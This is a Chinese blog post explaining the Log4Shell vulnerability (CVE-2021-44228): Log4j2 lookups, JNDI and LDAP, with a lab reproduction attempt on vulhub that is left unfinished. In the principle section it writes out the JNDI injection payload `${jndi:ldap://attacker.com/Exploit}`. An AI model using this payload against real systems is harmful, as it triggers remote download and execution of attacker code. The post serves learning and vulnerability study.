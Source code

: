 ```yaml
---
title: 漏洞分析之 CVE-2021-44228
date: 2025-04-11 14:36:00
tags: [Web, 渗透]
categories: 渗透
---
```


Log4j2 核弹级漏洞，时隔四年的复现。
<!--more-->

## 前言

当时这个漏洞出来的时候各种公众号关于这个的稿子满天飞，但是一直是个守法好公民，也没想着拿去梭两把。

虽然现在对 Java 不怎么熟悉，但是还是想挑战下自己，觉得会挺有意思的。

## 前置知识

### Log4j2 的日志记录功能

第一次看到 Log4j 可能会有点奇怪 —— 怎么叫这名
但是如果说这个是 Log for Java 的谐音的话，那一切就合理了
Log4j2 也不难理解，就是 Log4j 的第二个版本，就跟 python2 和 python3 一样，最早其实也是有 python 1.x 版本的，但是 python2 从 2000 年就开始推行，所以没人认识 python1.x 而已。

### Lookup 功能的设计缺陷

Log4j2 支持一种名为 Lookup 的功能，允许在日志中插入动态内容，比如环境变量、系统信息等。
其语法为 `${...}`，例如 `${java:version}` 会被替换为当前 Java 版本，听起来有点 SSTI 那味了。

### JNDI

JNDI，全称 Java Naming and Directory Interface，Java 命名和目录接口，是 Java 提供的一种 API，用于访问命名和目录服务。
没接触过的读者看到这行字可能会心想：叽里咕噜说什么呢
但是问题不大，我也没看懂。
我们只需要大概理解成**给他一个名字，他就能找到你想要的东西**就行了，类似 Python 里的字典。

### LDAP

LDAP，全称 Lightweight Directory Access Protocol，轻量级目录访问协议，是一种用于访问和维护分布式目录信息服务的协议。
如果这个也不看懂，那也没关系，同样类比 HTTP 协议就行了。

## 原理

假设有一个 Java 网站的登录接口记录用输入的用户名，大概意思是这样，代码不一定对：

```java
logger.error("登录失败，用户名：" + username);
```

若攻击者提交的用户名为 `${jndi:ldap://attacker.com/Exploit}`，那么

1. Log4j2 会解析 `${jndi:...}`，向 `attacker.com` 发起 LDAP 请求。
2. LDAP 服务器返回一个指向 `http://attacker.com/Exploit.class` 的地址。
3. Java 应用下载并执行 `Exploit.class` 中的恶意代码。

## 复现

受影响的版本 Apache Log4j 2.x <= 2.14.1
使用 [vulhub](https://github.com/vulhub/vulhub) 的 docker 镜像，位于 `/log4j/CVE-2021-44228`

```bash
docker-compose up -d
```

启动一下（每日热知识：`-d` 是 `--detach` 的缩写，表示在后台运行容器）

试了好久那个 dnslog 都不行，感觉是网络问题，因为我本地访问也是时灵时不灵

## 参考

[log4j2漏洞CVE-2021-44228复现笔记(纯步骤过程，没有复杂的知识点)](https://blog.csdn.net/qq_41132792/article/details/124952616)
[跟个风，聊一聊这两天很火的Log4j核弹级漏洞](https://baijiahao.baidu.com/s?id=1718842142014280135)
